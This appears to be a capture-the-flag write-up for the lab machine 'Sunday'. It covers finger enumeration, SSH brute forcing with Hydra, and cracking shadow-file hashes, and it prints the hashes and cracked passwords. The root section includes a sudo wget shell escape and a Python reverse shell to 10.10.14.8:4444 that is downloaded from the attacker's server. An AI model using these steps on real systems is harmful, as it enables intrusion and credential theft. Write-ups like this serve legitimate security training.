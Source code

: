 # Sunday

**Machine ip:** 10.10.10.76

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.76 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.76`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ecfe88ee-793c-489d-aafa-44cfb78c700b)

+ The result shows that 5 TCP ports are open:
```
Port 79: finger?
Port 111: rpcbind 2-4
Port 515: printer
Port 6787: http
Port 22022: OpenSSH 8.4
```

+ Start off with enumerating port 79, and it is **finger** service.
+ Finger protocol is used to find out information about users on a remote system. It can be used to enumerate usernames.
+ It provides status reports on logged in users. It can also provide details about a specific user and when they last logged in and from where.

+ Check if there are any logged in users: `finger @10.10.10.76`
+ Noone is currently logged in.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a7cb9456-0efe-461d-b5a0-06af81b664e7)

+ finger can also check for details on a specific user.
+ Check if the user **root** exists: `finger root@10.10.10.76`
+ root users exists.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/245a1dcb-ff9c-4e48-9706-f602366fd3e9)

+ Enumerate for more usernames using `/usr/share/seclists/Usernames/Names/names.txt` seclists wordlist.
+ Try to brute force usernames using the [finger-user-enum.pl](http://pentestmonkey.net/tools/finger-user-enum/finger-user-enum-1.0.tar.gz) script from pentestmonkey.
+ `./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/92b5af15-f73d-4323-9989-46b8f3d740b0)

+ Check the results of finger for a username whether it exists.
+ `finger sammy@10.10.10.76`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f7f3fe42-1dc8-40e4-81fa-270c90771f3a)

+ `finger sunny@10.10.10.76`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a850e194-3edd-4c87-ae0d-cfa64c342f0a)

+ **sammy** and **sunny** users exist, and **test** user doesn't exist.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/edfc743d-7113-4830-94f0-979bf6bbd8b6)


## Gaining Access:
+ SSH is open, and there are 2 valid usernames: sammy adn sunny
+ Brute force the users' credentials using hydra.
```
hydra -L users.txt -P /usr/share/seclists/Passwords/probable-v2-top1575.txt 10.10.10.76 ssh -s 22022 -f
```

+ `sunny`:`sunday` username and password found.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3056ebf9-733d-4644-a26c-b91a787cab77)

+ Login ssh: `ssh -p 22022 sunny@10.10.10.76`
+ We got the low level access.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/75521922-5eea-4e98-8c9a-b44f26b5bd71)


## Privilege Escalation: from sunny to sammy
+ We need to escalate our privileges to Sammy.
+ Check **shadow.backup** in **/backup** directory.
+ It's a backup of the shadow file, and that is world readable.
```
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/902fc75b-9066-4b8d-801d-16e692e7082f)

+ We already know sunny's password therefore we're not going to crack it.
+ Use john or hashcat to crack the hash.

+ **Using john:**
+ Now, copy **sammy**'s password hash, and save it in the file **hash.txt**. 
+ `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/321c70bc-5af0-4fd6-92c4-5b02ae02a4a4)

+ `john hash.txt --show`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/66bdf411-8ca1-4b95-859e-3dac32645544)

+ **Using hashcat:**
+ Now, copy **sammy**'s password hash, and save in the **hash** file.
+ Specify the hash type from checking [hashcat.net](https://hashcat.net/wiki/doku.php?id=example_hashes).

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f0658f0b-36d3-4081-9d7a-4c93ece481f0)

+ `hashcat -m 7400 hash /usr/share/wordlists/rockyou.txt --force`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b004bd76-5a97-48ee-96b0-52036b0aeec1)

+ `hashcat hash --show`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/82fae4ab-8672-403b-8bbb-6dacc755fe04)

+ **Cracked** `sammy`:`cooldude!`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dd51bb99-c289-4229-b878-3db5082ddba4)

+ Login ssh `sammy`:`cooldude!`: `ssh sammy@10.10.10.76 -p 22022`
+ Get the user flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ae58cbf1-749c-4d00-b846-98da777ca45c)

## Privilege Escalation: from sammy to root

### Method 1:
+ Run `sudo -ll` command to view the list of allowed commands the user can run as root.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/36f1c0e0-6503-4515-8f63-25179f3be8b4)

+ Check [wget](https://gtfobins.github.io/gtfobins/wget/) on gtfobins.
+ Try [sudo](https://gtfobins.github.io/gtfobins/wget/#sudo)
```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

+ Get the root shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4e469a93-aad2-4338-a806-18c7ae8d33c1)


### Method 2:
+ On **sunny**'s session, view the list of allowed commands that the user can run with root privileges: `sudo -ll`
+ We don't have write access to the script, so we can't escalate our privileges using it.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/afd94b35-eb23-48b4-b1ef-2960847d9e3a)

+ Pass to **sammy**'s session, and view the list of allowed commands the user can run as root.
+ **Terminal [1]:** Create a **rev_shell.py** file on your kali attack vm, and serve it with SimpleHTTPServer.
```
#!/usr/bin/env python
import os
import sys
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.8/4444 0>&1"')
```

+ **Terminal [2]:** Start listener on your kali attack vm: `nc -lnvp 4444`
+ **Terminal [3]:** On sammy's session, download request **rev_shell.py** with wget, using the `-O` option, which will allow us to specify a file to write the wget output to, and it will overwrite that file if it already exists.
```
sudo wget http://10.10.14.8:8000/rev_shell.py -O /root/troll
```

+ **Terminal [4]:** On sunny's session, run it with sunny: `sudo /root/troll`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ee1abc40-ef93-490b-8150-376696d7e990)

+ **Terminal [2][5]:** Get the root shell.


# References & Alternatives:
+ https://vvmlist.github.io/#poison
+ https://0xdf.gitlab.io/2018/09/29/htb-sunday.html#6-methods-to-root-using-wget
+ 

